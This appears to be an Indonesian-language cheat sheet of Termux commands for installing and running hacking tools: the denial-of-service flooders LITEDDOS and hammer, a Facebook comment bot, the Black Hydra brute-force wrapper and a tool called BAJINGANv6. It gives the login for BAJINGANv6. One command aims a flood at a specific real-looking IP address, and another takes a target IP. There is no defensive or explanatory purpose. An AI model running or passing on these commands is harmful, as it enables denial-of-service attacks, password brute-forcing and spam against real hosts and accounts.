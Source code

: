    **Instal Bajingan V6**
$ pkg install git
$ git clone https://github.com/DarknessCyberTeam/BAJINGANv6
$ ls
$ cd BAJINGANv6
$ sh BAJINGAN.sh
Username: BAJINGAN
Password: Gans

    **Cara Install LITEDDOS**
$ pkg install python2
$ pkg install git
$ git clone https://github.com/4L13199/LITEDDOS
$ cd LITEDDOS/
$ python2 LITEDDOS.py
$ python2 LITEDDOS.py 147.237.76.155 80 100|lolcat

     **Cara install DDOS**
$ apt update 
$ apt upgrade
$ pkg install python -Y
$ pkg install git -Y
$ git clone https://github.com/cyweb/hammer
$ ls
$ cd hammer
$ python hammer.py
$ python hammer.py -s (ip addres) -p 80 -t 135

    ** Botkomena fb**
$ pkg update && pkg upgrade
$ pkg install git
$ pkg install python2
$ pip2 install mechanize
$ git clone https://github.com/Senitopeng/Botkomena.git
$ cd Botkomena
$ python2 botkomena.py 

    **Black Hydra**
$ apt update && apt upgrade
$ apt install git
$ git clone https://github.com/Gameye98/Black-Hydra
$ cd Black-Hydra
$ mv blackhydra.py main.py
$ chmod +x main.py
$ python2 main.py



- Thanks Untuk TUAN BADUT 
- Thanks Untuk ThugLife
*_* Terima Kasih Semua *_*
